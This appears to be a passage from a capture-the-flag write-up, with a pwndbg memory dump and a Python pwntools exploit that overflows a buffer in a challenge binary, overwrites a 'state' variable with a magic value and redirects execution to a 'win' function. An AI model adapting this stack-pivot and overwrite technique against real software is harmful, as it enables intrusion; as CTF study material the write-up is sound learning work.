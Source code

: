 ```sh
pwndbg> x/10xg 0x404540
0x404540 <state>:       0x00000000deaddead      0x0000000000000000
0x404550:       0x0000000000000000      0x0000000000000000
0x404560 <errorMsg>:    0x74276e646c756f43      0x6c66206461657220
0x404570 <errorMsg+16>: 0x2e656c6966206761      0x2072656874694520
0x404580 <errorMsg+32>: 0x6120657461657263      0x6c66207473657420
pwndbg> x/10xg (0x404540-0x10)
0x404530 <buf+1264>:    0x0000000000000000      0x0000000000000000
0x404540 <state>:       0x00000000deaddead      0x0000000000000000
0x404550:       0x0000000000000000      0x0000000000000000
0x404560 <errorMsg>:    0x74276e646c756f43      0x6c66206461657220
0x404570 <errorMsg+16>: 0x2e656c6966206761      0x2072656874694520
```

Since state is at `0x404540`, we need to overwrite it with `0xf1eeee2d`. However, to ensure proper alignment and avoid corruption, we write data slightly before `state`, adjusting our input to target the exact memory region effectively. Hence, we subtract `0x10` from its address to control the write precisely.


```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./chall', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''

        b *vuln+53
        c
        '''.format(**locals()), *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

p = start()

# ==================== EXPLOIT ====================

def exploit():

    offset = 32
    bss = 0x404530 # state - 0x10

    payload1 = flat({
        offset: [
            bss + 0x20,
            exe.sym["vuln"]+8
        ]
    })

    state = 0xf1eeee2d # Our value need to change
    payload2 = b"A" * 0xf + p64(state) + b"B" * 0x10 + p64(exe.sym["win"])

    sa(b"?", payload1)
    sa(b"?", payload2)

    interactive()
```
